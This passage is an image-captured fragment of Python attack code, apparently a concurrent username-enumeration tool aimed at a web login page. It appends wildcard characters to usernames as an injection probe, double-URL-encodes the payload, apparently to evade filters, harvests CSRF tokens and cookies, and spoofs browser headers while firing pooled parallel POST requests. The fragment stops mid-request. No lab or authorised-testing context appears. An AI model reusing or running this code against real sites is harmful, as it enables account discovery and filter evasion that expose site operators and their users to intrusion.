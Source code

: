 ```python
        if use_wildcard:
            username = username + '*'
        
        if DOUBLE_URL_ENCODE:
            username = ''.join(f'%{byte:02X}' for byte in username.encode('utf-8'))
        
        return username
    
    async def get_token_and_cookies(self, client):
        """Fetch CSRF token with proper regex"""
        try:
            response = await client.get(BASE + LOGIN_PAGE)
            token = None
            
            if "__RequestVerificationToken" in response.cookies:
                token = response.cookies["__RequestVerificationToken"]
            
            match = TOKEN_RE.search(response.text)
            if match:
                token = match.group(1)
            
            return token, dict(response.cookies)
        except Exception as e:
            return None, {}
    
    async def test_username_fast(self, username: str, use_wildcard: bool = False):
        """Fast username test with connection pooling"""
        async with self.global_semaphore:
            async with httpx.AsyncClient(
                verify=VERIFY_TLS,
                headers={
                    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
                    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                    "Accept-Language": "en-US,en;q=0.5",
                    "Referer": BASE + LOGIN_PAGE,
                    "Origin": BASE,
                    "Content-Type": "application/x-www-form-urlencoded",
                },
                timeout=15.0,
                limits=httpx.Limits(max_connections=30, max_keepalive_connections=20)
            ) as client:
                
                token, cookies = await self.get_token_and_cookies(client)
                if not token:
                    return False
                
                username_payload = self.prepare_username_payload(username, use_wildcard)
                
                data = {
                    USERNAME_FIELD: username_payload,
                    PASSWORD_FIELD: PASSWORD_TO_SEND,
                    REMEMBER_FIELD: "false",
                    CSRF_FORM_FIELD: token
                }
                
                try:
                    response = await client.post(
                        TARGET_URL, 
                        data=data,
                        cookies=cookies,
                        follow_redirects=False
                    )
```